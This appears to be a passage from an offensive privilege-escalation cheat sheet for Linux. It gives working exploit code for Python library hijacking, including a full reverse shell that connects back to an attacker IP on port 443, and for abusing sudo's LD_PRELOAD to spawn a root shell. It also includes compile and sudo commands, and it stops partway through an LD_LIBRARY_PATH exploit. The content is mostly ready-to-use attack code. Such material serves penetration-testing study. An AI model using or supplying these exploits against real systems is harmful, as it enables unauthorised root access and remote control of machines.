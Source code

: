 ## Python library hijacking
- Check library loading locations order:
```bash
python -c 'import sys; print "\n".join(sys.path)' # The first empty one is the current dir
```
- Create required library copy keeping the same class/method signature and populate with the reverse shell code:
```python
import os
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ip>",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```
- Put code in the proper location if possible.
- Or modify PYTHONPATH env variable if sudo SETENV is set:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/<some_python> <some_vulnerable_python_script>
```

## `LD_PRELOAD` exploit
- If `env_keep+=LD_PRELOAD` is set, use this exploit.
- `ld_preload_exploit.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
- Compile it:
```bash
gcc -shared -fPIC -nostartfiles -o /tmp/ld_preload.so ld_preload_exploit.c
```
- Run sudo program with `LD_PRELOAD`:
```bash
sudo LD_PRELOAD=/tmp/ld_preload.so <sudo_program>
```

## `LD_LIBRARY_PATH` exploit
- If `env_keep+=LD_LIBRARY_PATH` is set use this exploit.
- Pick the shared library to replace:
```bash
ldd <sudo_program>
```
- `ld_library_path_exploit.c`:
```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor))

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
```